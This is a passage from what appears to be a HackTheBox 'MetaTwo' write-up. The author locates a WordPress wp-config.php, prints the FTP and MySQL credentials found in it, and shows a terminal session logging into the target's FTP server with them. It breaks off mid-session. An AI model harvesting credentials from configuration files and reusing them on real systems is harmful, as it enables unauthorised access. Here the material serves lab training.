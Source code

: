 And that explains why I had been unable to access any interesting wordpress files, the blog isn't located at the normal path of `/var/www/html` or `/var/www/html/wordpress`, etc.

We can now access the wp-config file at: `/var/www/metapress.htb/blog/wp-config.php` which gives us a few credentials:

![htb_metatwo_creds.png](../assets/metatwo_assets/htb_metatwo_creds.png)

For FTP: `metapress.htb:9NYS_ii@FyL_p5M2NvJ`

and Mysql: `blog:635Aq@TdqrCwXFUZ`

From here we can login to the FTP server and access files:

```
┌──(ryan㉿kali)-[~/HTB/MetaTwo]
└─$ ftp 10.129.183.246
Connected to 10.129.183.246.
220 ProFTPD Server (Debian) [::ffff:10.129.183.246]
Name (10.129.183.246:ryan): metapress.htb
331 Password required for metapress.htb
Password: 
230 User metapress.htb logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||43510|)
150 Opening ASCII mode data connection for file list
drwxr-xr-x   5 metapress.htb metapress.htb     4096 Oct  5  2022 blog
drwxr-xr-x   3 metapress.htb metapress.htb     4096 Oct  5  2022 mailer
226 Transfer complete
ftp> cd mailer
250 CWD command successful
ftp> ls
```